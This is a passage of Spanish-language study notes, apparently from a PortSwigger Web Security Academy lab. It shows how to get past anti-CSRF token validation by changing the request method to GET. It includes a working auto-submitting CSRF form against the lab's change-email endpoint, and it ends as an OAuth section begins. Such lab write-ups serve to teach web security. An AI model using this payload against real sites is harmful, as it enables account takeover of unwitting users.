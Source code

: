 >La idea aquí es **bypassear** la validación que se realiza del token `anti-csrf` cambiando el método de la petición a GET.

Click derecho en la petición POST > *Change request method*

![reqmethod2](images/reqmethod2.png)  

Ahora todo va como parámetro de la URL. Probamos a mandar la variable del token vacía, **incluso quitar el propio parámetro y enviar sólo el email** y funciona ==> hemos logrado bypassear la validación del token.
Queda construir el ataque:

```html
<form method="GET" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form> 
<script> 
     document.forms[0].submit(); 
</script>
```

### OAuth  

`Login with social media` o `attach a social profile`.

Al iniciar sesión normal, con user y contraseña, se ve esta opción:
